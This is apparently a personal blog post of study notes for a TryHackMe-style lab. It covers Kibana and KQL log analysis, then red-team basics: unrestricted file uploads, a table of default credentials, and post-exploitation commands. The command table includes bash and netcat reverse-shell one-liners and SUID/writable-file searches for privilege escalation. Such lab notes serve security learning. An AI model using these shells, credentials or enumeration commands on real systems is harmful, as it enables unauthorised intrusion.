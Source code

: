 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
    ELK: Elasticsearch, Logstash, and Kirbana  
    
ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
    - Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
    - KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).  
    | Query/Syntax | Description | Example |
    | --- | --- | --- |
    | " " | Search for specific values. *Exact* search. | "TryHackMe" |
    | * | Wildcard for similar matches to value provided | United* (returns United Kingdom and United States) |
    | OR | Shows documents that contain *either* value provided | "United Kingdom" OR "England" |
    | AND | Shows documents that contain *both* values provided | "Ben" AND "25" |
    | : | Search a specific field in the document. Field availability<cr>depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
    - RCE: Uploading a script that the server runs giving control to the attacker.  
    - XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:
    | Username | Password |
    | --- | --- |
    | admin | admin |
    | administrator | administrator |
    | admin@domainname | admin |
    | guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:
    | Command | Use |
    | --- | --- |
    | ls | Gives idea of files and directories around you |
    | cat | Outputs contents of documents like text files |
    | pwd | Gives idea of where in system you are |
    | whoami | Lets you know who you are |
    | hostname | System name and potentially its role |
    | uname -a | System info like OS, kernel version, etc. |
    | id | Shows any groups current user is assigned to |
    | ifconfig | Network setup info |
    | bash -i >& /dev/tcp/<cr>'<your-ip>/'<port> 0>&1 | Begins reverse shell via bash |
    | nc -e /bin/sh '<your-ip> <port> | Begin reverse shell via Netcat |
    | find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
    | find / -writable -type f 2>/dev/<cr>null '| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

